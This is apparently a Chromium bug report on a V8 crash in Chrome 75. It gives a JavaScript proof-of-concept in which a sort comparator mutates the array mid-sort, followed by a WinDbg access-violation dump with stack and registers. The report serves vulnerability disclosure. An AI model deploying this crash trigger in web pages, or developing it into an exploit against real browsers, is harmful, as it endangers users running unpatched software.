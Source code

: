 UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36

Steps to reproduce the problem:
I was reported this bug Mon, Apr 1, 2019.
https://bugs.chromium.org/p/chromium/issues/detail?id=947923

Now it also can crash v8(7.5.288.23) and chrome-stable(75.0.3770.100).

PoC
<script>
let xs = [];
for(let i = [];i<6000;++i)
{
	xs.push(i);
	i++;
}
xs.sort(()=>{
	xs.shift();
	for(let i = -1.1;i<300;++i)
	{
		xs.push(i);
	}
	xs.shift();
	new ArrayBuffer(507222809);
})
window.location.reload();
</script>

What is the expected behavior?

What went wrong?
the crash info 
11:071> g
(328c.3d10): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
chrome_child!ChromeMain+0x6ace32:
00007ffc`b200e182 f6400818        test    byte ptr [rax+8],18h ds:00002655`38440008=??
6:087> kb
 # RetAddr           : Args to Child                                                           : Call Site
00 00007ffc`b2d98a5c : 0000008d`e93fd658 00007ffc`b2d97dbe 00000000`00000001 00007ffc`b1c4920c : chrome_child!ChromeMain+0x6ace32
01 00007ffc`b2d98bd1 : 00000000`1e3b9b19 00007827`d3e04000 0000d4cc`ea7b8800 00007ffc`b1dd7aae : chrome_child!ovly_debug_event+0xce6d8c
02 00007ffc`b2d97456 : 00000000`1e3b9b19 00007ffc`00000000 00000000`00000000 0000d4cc`ea7b884a : chrome_child!ovly_debug_event+0xce6f01
03 00007ffc`b2ce6136 : 00000226`8dc22f00 0000008d`e93fd600 0000008d`e93fd570 00007ffc`b2cec04a : chrome_child!ovly_debug_event+0xce5786
04 00007ffc`b202b767 : 00007ffc`b2cea3a0 0000395d`380538d1 0000395d`38043421 00007ffc`b33f83bd : chrome_child!ovly_debug_event+0xc34466
05 00007ffc`b33f83bd : 00000000`00000028 0000008d`e93fd640 00007ffc`b3367fda 0000395d`380538d1 : chrome_child!ChromeMain+0x6ca417
06 00000000`00000028 : 0000008d`e93fd640 00007ffc`b3367fda 0000395d`380538d1 0000395d`380538d1 : chrome_child!ovly_debug_event+0x13466ed
07 0000008d`e93fd640 : 00007ffc`b3367fda 0000395d`380538d1 0000395d`380538d1 00006ce4`20080139 : 0x28
08 00007ffc`b3367fda : 0000395d`380538d1 0000395d`380538d1 00006ce4`20080139 00000001`00000000 : 0x0000008d`e93fd640
09 0000395d`380538d1 : 0000395d`380538d1 00006ce4`20080139 00000001`00000000 0000008d`e93fd5e0 : chrome_child!ovly_debug_event+0x12b630a
0a 0000395d`380538d1 : 00006ce4`20080139 00000001`00000000 0000008d`e93fd5e0 00000000`00000028 : 0x0000395d`380538d1
0b 00006ce4`20080139 : 00000001`00000000 0000008d`e93fd5e0 00000000`00000028 0000008d`e93fd698 : 0x0000395d`380538d1
0c 00000001`00000000 : 0000008d`e93fd5e0 00000000`00000028 0000008d`e93fd698 000065b1`e280266f : 0x00006ce4`20080139
0d 0000008d`e93fd5e0 : 00000000`00000028 0000008d`e93fd698 000065b1`e280266f 00001369`8e7004d1 : 0x00000001`00000000
0e 00000000`00000028 : 0000008d`e93fd698 000065b1`e280266f 00001369`8e7004d1 0000395d`38057d81 : 0x0000008d`e93fd5e0
0f 0000008d`e93fd698 : 000065b1`e280266f 00001369`8e7004d1 0000395d`38057d81 00000005`00000000 : 0x28
10 000065b1`e280266f : 00001369`8e7004d1 0000395d`38057d81 00000005`00000000 00001369`8e7005b1 : 0x0000008d`e93fd698
11 00001369`8e7004d1 : 0000395d`38057d81 00000005`00000000 00001369`8e7005b1 00007ab6`c1dbf221 : 0x000065b1`e280266f
12 0000395d`38057d81 : 00000005`00000000 00001369`8e7005b1 00007ab6`c1dbf221 00000000`0008c45e : 0x00001369`8e7004d1
13 00000005`00000000 : 00001369`8e7005b1 00007ab6`c1dbf221 00000000`0008c45e 404cf333`33333333 : 0x0000395d`38057d81
14 00001369`8e7005b1 : 00007ab6`c1dbf221 00000000`0008c45e 404cf333`33333333 00002a01`e2900139 : 0x00000005`00000000
15 00007ab6`c1dbf221 : 00000000`0008c45e 404cf333`33333333 00002a01`e2900139 00007ab6`c1dbf221 : 0x00001369`8e7005b1
16 00000000`0008c45e : 404cf333`33333333 00002a01`e2900139 00007ab6`c1dbf221 00007ab6`c1db0439 : 0x00007ab6`c1dbf221
17 404cf333`33333333 : 00002a01`e2900139 00007ab6`c1dbf221 00007ab6`c1db0439 00007ab6`c1dbf261 : 0x8c45e
18 00002a01`e2900139 : 00007ab6`c1dbf221 00007ab6`c1db0439 00007ab6`c1dbf261 00007ab6`c1db0439 : 0x404cf333`33333333
19 00007ab6`c1dbf221 : 00007ab6`c1db0439 00007ab6`c1dbf261 00007ab6`c1db0439 0000008d`e93fd6d0 : 0x00002a01`e2900139
1a 00007ab6`c1db0439 : 00007ab6`c1dbf261 00007ab6`c1db0439 0000008d`e93fd6d0 00007ffc`b3365b3c : 0x00007ab6`c1dbf221
1b 00007ab6`c1dbf261 : 00007ab6`c1db0439 0000008d`e93fd6d0 00007ffc`b3365b3c 00007ab6`c1db4db1 : 0x00007ab6`c1db0439
1c 00007ab6`c1db0439 : 0000008d`e93fd6d0 00007ffc`b3365b3c 00007ab6`c1db4db1 00000000`00000000 : 0x00007ab6`c1dbf261
1d 0000008d`e93fd6d0 : 00007ffc`b3365b3c 00007ab6`c1db4db1 00000000`00000000 00000002`00000000 : 0x00007ab6`c1db0439
1e 00007ffc`b3365b3c : 00007ab6`c1db4db1 00000000`00000000 00000002`00000000 00007ab6`c1dbf261 : 0x0000008d`e93fd6d0
1f 00007ab6`c1db4db1 : 00000000`00000000 00000002`00000000 00007ab6`c1dbf261 00000000`00000024 : chrome_child!ovly_debug_event+0x12b3e6c
20 00000000`00000000 : 00000002`00000000 00007ab6`c1dbf261 00000000`00000024 0000008d`e93fd708 : 0x00007ab6`c1db4db1
6:087> r
rax=0000265538440000 rbx=0000000000024658 rcx=0000000000000000
rdx=0000000000024658 rsi=000000000008838d rdi=00006ce420080008
rip=00007ffcb200e182 rsp=0000008de93fd280 rbp=00006ce420080148
 r8=00000000004662c0  r9=0000000000000008 r10=00006ce420080150
r11=00006ce420080148 r12=000002268dc2bfa8 r13=000000000008cc58
r14=00006ce420080139 r15=0000000000000003
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
chrome_child!ChromeMain+0x6ace32:
00007ffc`b200e182 f6400818        test    byte ptr [rax+8],18h ds:00002655`38440008=??

Did this work before? N/A 

Chrome version: 75.0.3770.100  Channel: stable
OS Version: 10.0
Flash Version: